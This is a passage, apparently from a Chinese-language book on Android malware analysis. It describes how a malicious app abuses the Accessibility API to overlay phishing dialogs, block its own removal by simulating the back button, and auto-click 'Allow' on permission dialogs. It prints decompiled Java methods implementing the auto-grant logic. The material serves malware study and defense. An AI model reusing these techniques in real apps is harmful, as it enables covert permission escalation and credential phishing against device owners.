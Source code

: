 *清单 4-22：可访问性 API 用于处理新应用程序进入前台的情况。*

首先，恶意软件检查是否应该注入钓鱼对话框（`injectionsEnabled`）并且是否应针对活动应用显示该对话框（`packageHas Injection`）。如果是，它会显示钓鱼对话框。接下来的几个 `if` 语句是自我防御机制，当用户打开系统对话框以删除恶意软件时，它会模拟点击返回按钮。之后是接受所有应用权限请求并执行某些系统对话框特定操作的代码。

#### ***自动授予权限***

该服务还处理常规的可访问性事件以及触发`windowContentChanged`和`notificationStateChanged`事件的事件。这些部分的代码混乱且难以跟随。例如，看看执行看似简单的操作——点击权限对话框上的“确定”按钮以自动授予恶意软件它请求的所有权限的代码。列表 4-23 展示了`checkPermissionsClick`的代码。

```
public static boolean checkPermissionsClick(
        AccessibilityService accessibilityService,
        AccessibilityEvent accessibilityEvent) {
    return (
        accessibilityEvent.getPackageName().toString().contains("permissioncontroller") || 
        accessibilityEvent.getPackageName().toString().equals("packageinstaller")
        ) && (
        findFirstNodeByName(accessibilityEvent.getSource(), Constants.appName) != null)
        && !UtilGlobal.checkPermissions(accessibilityService);
}
```

*列表 4-23：在必要时模拟点击权限对话框*

应用首先检查可访问性事件是否来自`permission controller`或`packageinstaller`，以确保应用正在显示期望的对话框。然后，它检查应用名称是否是导致可访问性事件的层级的一部分。我们在这里省略了执行这一操作的 20 行代码。最后，恶意软件确保它尚未被授予相关权限。如果它已经拥有所有需要的权限，说明对话框可能是由其他应用启动的。

在确认所有这些条件之后，恶意软件点击对话框的“确定”按钮。列表 4-24 展示了实现此点击的第一个方法。

```
public static boolean grantPermissionsClick(
        AccessibilityService accessibilityService,
        AccessibilityEvent accessibilityEvent) {
    try {
        return pressAllowButton(accessibilityEvent.getSource());
    } catch (Exception unused) {
        return false;
    }
}
```

*列表 4-24：点击权限对话框按钮的外部方法*

该方法简单地调用`pressAllowButton`，如列表 4-25 所示。在这里，事情变得更加复杂，因为该方法遍历了按钮 ID 和按钮标签的列表。按钮标签列表包含`Allow`和`OK`字符串，这意味着如果设备由于语言设置没有使用这些术语，该代码将无法找到按钮。按钮 ID 列表包含五个形式为`com.android.packageinstaller:id/permission_allow_button`的字符串，这些字符串可能是不同 Android 版本中权限对话框的 ID。

```
public static boolean pressAllowButton(
        AccessibilityNodeInfo accessibilityNodeInfo) {
    boolean z = false;
    for (String str : Constants.allowButtonsIdList) {
        z |= pressButtonByViewId(accessibilityNodeInfo, str);
    }
    if (!z) {
        for (String str2 : Constants.allowButtonsLabelList) {
            z |= pressButtonByText(accessibilityNodeInfo, str2);
        }
    }
    UtilGlobal.Log(TAG, "IsPressAllowSuccessful: " + z);
    return z;
}
```

